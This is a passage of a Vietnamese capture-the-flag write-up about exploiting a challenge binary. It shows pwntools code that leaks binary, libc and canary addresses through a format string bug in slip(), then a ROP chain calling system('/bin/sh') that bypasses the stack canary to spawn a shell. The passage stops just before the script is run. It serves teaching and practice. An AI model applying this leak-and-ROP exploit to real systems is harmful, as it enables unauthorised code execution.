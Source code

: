 ## Ý TƯỞNG
- Ta nhận thấy tồn tại lỗi Format String tại hàm slip() và ta có thể dùng bug đó để leak địa chỉ, canary hoặc ghi đè địa chỉ. Ngoài ra tại hàm stack_check_up cũng có thể dùng để khai thác vì sử dụng scanf(lấy dữ liệu đến khi gặp kí tự xuống dòng hoặc tab) và với việc leak được canary thì ta hoàn toàn có thể bypass để ghi đè địa chỉ trả về của hàm. 
- Vì không tồn tại một hàm nào có thể tạo shell vậy ta hướng đến việc tạo một ROPchain system("/bin/sh") để lấy được shell.

## KHAI THÁC
- Checksec:
![{40D2EB73-13BC-4E1A-BEB9-C21721EE57AF}](https://hackmd.io/_uploads/HyvzmqEjkx.png)
> Các phương pháp bảo mật như: RELRO, Canary, NX, PIE đều được bật.
- Leak address:
> Dừng tại lúc slip() lấy dữ liệu đầu vào để khảo sát stack:
> ![{BF89608D-667A-4843-A55F-B654B15D7217}](https://hackmd.io/_uploads/HkaQEcEsJg.png)
> Ta thấy rằng với FormatString ta hoàn toàn có thể leak được các địa chỉ của binary, libc và cả canary tại đây với %p với index thích hợp. Ta có script:
>```python=
> #Leak address by using choice 4 exsist format string bug
> sla(b'> ',b'4')
> sla(b'left?\n',f'%13$p%29$p%17$p'.encode())
> data =rl().split(b'0x')
> exe_leak = int(data[1],16)
> libc_leak = int(data[2],16)
> can = int(data[3],16)
> 
> exe.address = exe_leak - 0x1747
> info('Exe leak: ' + hex(exe_leak))
> info('Exe base: ' + hex(exe.address))
> libc.address = libc_leak - 0x28150
> info('Libc leak: ' + hex(libc_leak))
> info('Libc base: ' + hex(libc.address))
> info('Canary leak: '+ hex(can))
> ```
> Chạy script và kiểm tra liệu các giá trị được leak ra có hợp lệ:
> ![{A2BE521D-5934-44E9-9060-FD367CA7C0B1}](https://hackmd.io/_uploads/rJPXScVjkx.png)
> Vậy tất cả các giá trị và địa chỉ cần thiết đều được tính toán đúng.
- Cooking shell
> Với ý tưởng đã nêu, ta sẽ sử dụng hàm stack_check_up với điều kiện stack_life_point = 13 để ta có thể thực thi shell. Vậy trước hết ta cần nhập vào chương trình một lượng tùy chọn trừ điểm hợp lý để stack_life_point = 13 để việc nhập dữ liệu có thể được diễn ra: (100-13)/3=29. Vậy lựa chọn tối ưu nhất là lựa chọn 3 29 lần.
> Sau đó ta sẽ tiến hành khảo sát stack để nhập liệu hợp lý:
> ![{FC5EB094-5CC7-4FD4-9150-80D00F8B8337}](https://hackmd.io/_uploads/SJZpU9Voyl.png)
> Ta có thể xác định nhanh chóng địa chỉ saved rip của hàm nằm tại rsp + 0x28 và trước đó tại rsp + 0x18 là canary.
> Vậy ý tưởng ở đây là ta sẽ cho nhập vào 0x18 byte random và kế tiếp là giá trị của canary, sau đó là 8 byte bất kì cho rbp và địa chỉ của các gadget để lấy shell. (ở đây ta sử dụng ret; pop rdi; "/bin/sh"; libc.system). Ta có script:
> ```python=
> # Cooking shell
> # payload = p64(ret) + p64(prdi) + p64(next(libc.search(b"/bin/sh\0"))) + p64(libc.sym.system)
> prdi = libc.address + 0x28795
> ret = libc.address + 0x0000000000026a3e
> payload = b'a'*24 + p64(can) + b'a'*8 + p64(ret) + p64(prdi) + p64(next(libc.search(b'/bin/sh\0'))) + p64(libc.sym.system)
> for i in range(29):
>     sla(b'> ',b'3')
> sla(b'move: \n',payload)
> ```
> Ta cho chạy thử script: